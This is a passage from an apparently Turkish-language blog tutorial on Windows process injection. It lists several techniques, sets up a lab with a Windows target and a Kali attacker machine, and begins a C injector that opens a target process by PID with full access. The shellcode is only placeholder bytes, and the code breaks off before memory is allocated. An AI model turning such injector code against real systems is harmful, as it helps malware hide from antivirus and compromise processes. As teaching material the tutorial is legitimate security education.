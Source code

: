 <h2> 0x3 — Process Injection Attack </h2>

Yepp, temel şeyleri anladık şimdi saldırının nasıl gerçekleştirildiğini daha kolay anlayabileceğiz.

Process Injection saldırısı, bir saldırganın, çalışan herhangi bir Process’e kendi zararlı kodunu enjekte ederek sisteme saldırmayı hedefleyen bir saldırı türüdür. Bu saldırı, çoğunlukla antivirüs programlarına yakalanmamak için kullanılır ve birden fazla teknikleri bulunmaktadır. Tekniklerden bir kaçını aşağıda sırayalım:

* Process Doppelgänging
* Process Hollowing
* DLL Injection
* AtomBombing
* Thread Execution Hijacking

Bu saldırı tekniklerinin açıklamarına bu konuda yer vermeyeceğim. İlerideki serilerimde bunları tek tek detaylandıracağım.

Yukarıda bahsettiğim gibi, çalışacak programlar için bellekte yer ayrıldığını ve İşletim Sistemi tarafından oluşturulan Process’in bu belleği temsil ettiğini söylemiştim. İşte bu saldırıda ise hedef Process’in belleğine erişim sağlayıp ardından bu bellek içerisinde bir yer ayırıp içerisine zararlı kodu enjekte edilir. Bu part’ta ilerleyeceğimiz senaryoda ise en sonda bir Thread oluşturup bu zararlı kodu çalıştırmasını sağlayacağız.

<h2> 0x4 — Process Injection için Senaryo </h2>

Evet asıl konumuza geldik yani kuru fasulyenin faydalarına….

Bu örnek senaryo da iki tane sanal makine kullanacağım. Biri, hedef sistem olarak windows x64 işletim sistemi ve saldırgan sistem olarak kali x64 sistemi kullanacağım.

Senaryo için C ile Process Injection için bir kod parçası yazacağız ardından senaryodan önce malware’in assembly karşılığını kontrol edeceğiz ve en sonunda ise sonucu göreceğiz.

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

/* Messages */
char e[] = "[-]";
char s[] = "[+]";
char i[] = "[*]";

/* Shellcode */
unsigned char bekoShell[] = "\x41\x41\x41\x41"

int main(int argc, char const *argv[]) {
    if (argc < 2) {
        /* Eğer Program, parametre verilmeden çalıştırılırsa, Programı hata mesajına yönlendiriyoruz ardından programı bitiriyoruz. */
        printf("%s Usage: .\\injector.exe <PID>\n", e);
        return EXIT_FAILURE;
    }
    DWORD PID = atoi(argv[1]);
    
    /* Kullanıcıdan Alınan Process ID'i kullanarak hedef process'i tam yetki ile açıyoruz. */
    HANDLE hProcess = NULL;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (hProcess == NULL) {
        /* Eğer OpenProcess fonksiyonun geri dönüş adresi NULL olursa hata mesajına yönlendiriyoruz. */
        printf("%s Failed to open the process! Error Code: 0x%lx\n", e, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s Target Process is Open! PID: %ld\n", i, PID);

    /* Hedef Process'in bellek alanında shellcode için yer ayırıyoruz. */
```